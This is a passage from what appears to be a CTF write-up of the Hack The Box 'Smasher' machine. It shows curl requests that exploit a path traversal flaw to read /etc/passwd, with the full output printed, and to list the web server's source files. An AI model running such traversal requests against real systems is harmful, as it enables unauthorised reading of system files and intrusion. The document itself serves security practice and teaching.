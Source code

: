 Looks like a dead end with a fake login form. Form action posts data to
index.php, which doesn\'t exist on server. So, we have to look somewhere
else.

Few minutes of checking around with gobuster gave me interesting insight
by hitting points like //..////../etc/, i found this interesting

``` bash

[badarg:~/ctf/hackthebox/box/Smasher]$ curl http://10.10.10.89:1111//etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
www:x:1000:1000:www,,,:/home/www:/bin/bash
smasher:x:1001:1001:,,,:/home/smasher:/bin/bash
```

# Path Traversal Vulnerability

This is Path Traversal vulnerability in servers code. Nice, but what can
we do with it? I\'ll cut all my failed searches and ideas, in the end i
found actual http server code and binary (Yaaay!)

``` bash

[badarg:~/ctf/hackthebox/box/Smasher]$ curl http://10.10.10.89:1111//home/www/tiny-web-server/ | sed -e 's/<[^>]*>//g'
.git/2018-03-31 00:57[DIR]
public_html/2018-03-31 00:57[DIR]
tiny.c2018-03-31 00:5713.2K
README.md2018-03-31 00:571.0K
tiny2018-03-31 00:5744.4K
Makefile2018-03-31 00:57175
```
